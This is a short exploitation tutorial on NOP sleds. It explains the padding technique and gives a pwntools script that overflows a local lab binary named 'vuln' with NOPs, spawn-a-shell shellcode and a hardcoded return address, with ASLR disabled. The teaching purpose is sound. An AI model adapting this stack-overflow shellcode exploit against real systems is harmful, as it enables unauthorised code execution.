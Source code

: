 ```yaml
---
description: We can use NOPs for more reliable shellcode exploits
---
```


# NOPs

NOP \(no operation\) instructions do exactly what they sound like: _nothing_. Which makes then very useful for shellcode exploits, because all they will do is run the next instruction. If we pad our exploits on the left with NOPs and point EIP at the middle of them, it'll simply keep doing no instructions until it reaches our actual shellcode. This allows us a greater margin of error as a shift of a few bytes forward or backwards won't really affect it, it'll just run a different number of NOP instructions - which have the same end result of running the shellcode. This padding with NOPs is often called a NOP slide or NOP sled, since the EIP is essentially sliding down them.

In intel x86 assembly, NOP instructions are `\x90`.

### Updating our Shellcode Exploit

We can make slight changes to our exploit to do two things:

* Add a large number of NOPs on the left
* Adjust our return pointer to point at the middle of the NOPs rather than the buffer start

> Make sure ASLR is still disabled. If you have to disable it again, you may have to readjust your previous exploit as the buffer location my be different.

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240                 # The NOPs
payload += asm(shellcraft.sh())         # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4 + 120)        # Address of the buffer + half nop length

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

> It's probably worth mentioning that shellcode with NOPs is not failsafe; if you receive unexpected errors padding with NOPs but the shellcode worked before, try reducing the length of the nopsled

